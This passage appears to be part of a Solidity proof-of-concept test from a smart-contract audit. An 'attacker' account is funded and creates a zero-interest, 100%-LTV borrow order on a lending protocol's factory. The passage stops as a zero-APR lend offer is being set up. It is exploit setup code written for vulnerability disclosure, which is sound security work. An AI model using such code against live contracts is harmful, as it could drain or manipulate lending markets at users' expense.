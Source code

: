 ```solidity

        address principle = AERO;
        address collateral = USDC;

        address attacker = address(0x04);

        deal(principle, attacker, 1000e18, false);
        deal(collateral, attacker, 1000e18, false);

        //======================================//
        // Create a borrow offer with zero interest rate
        //======================================//
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
        bool[] memory oraclesActivatedLenders = allDynamicData
            .getDynamicBoolArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesCollateral = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        // set the values for the loan
        ltvs[0] = 10_000; // 100%
        ratio[0] = 1e7;
        acceptedPrinciples[0] = principle;
        acceptedCollaterals[0] = collateral;
        oraclesActivated[0] = false;

        vm.startPrank(attacker);

        IERC20(collateral).approve(address(DBOFactoryContract), 100e18);

        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            0, // interest rate
            864000,
            acceptedPrinciples,
            collateral,
            false,
            0,
            oraclesPrinciples,
            ratio,
            DebitaChainlinkOracle,
            100e18
        );

        vm.stopPrank();

        //=========================================================//
        // Create a lend offer with zero apr and zero min duration
        //=========================================================//
        vm.startPrank(attacker);

        IERC20(principle).approve(address(DLOFactoryContract), 100e18);
```